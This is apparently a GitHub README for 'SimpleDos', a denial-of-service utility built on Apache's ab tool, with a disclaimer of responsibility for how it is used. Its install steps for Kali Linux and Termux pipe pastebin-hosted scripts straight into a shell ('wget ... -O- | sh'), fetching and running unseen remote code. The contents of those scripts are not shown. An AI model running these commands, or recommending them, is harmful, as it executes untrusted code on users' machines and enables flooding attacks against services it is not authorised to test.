 # 🚀SimpleDos🚀
***
## ❌Warning❌
1) ❌This utility simplified the use of the ap testing module ab from apache2.❌
2) ❌The utility is provided for informational purposes only, I do not bear responsibility for how you will use it.❌
***
### ❓How to install it❓
1) apt install wget -y

2) If you use Kali Linux:

2.1) ⬇Download installer script: `wget https://pastebin.com/raw/82CxqjFS -O- | sh`

2.2) ⤵Change directory: `cd SimpleDosKali`

2.3) 🔴Run the utility: `./SimpleDos.exe`

3) If you use Termux:

3.1) ⬇Download installer script: `wget https://pastebin.com/cJiq4hcG -O- | sh`

3.2) ⤵Change directory: `cd SimpleDosTermux`

3.3) 🔴Run the utility: `./SimpleDosTermux.sh`
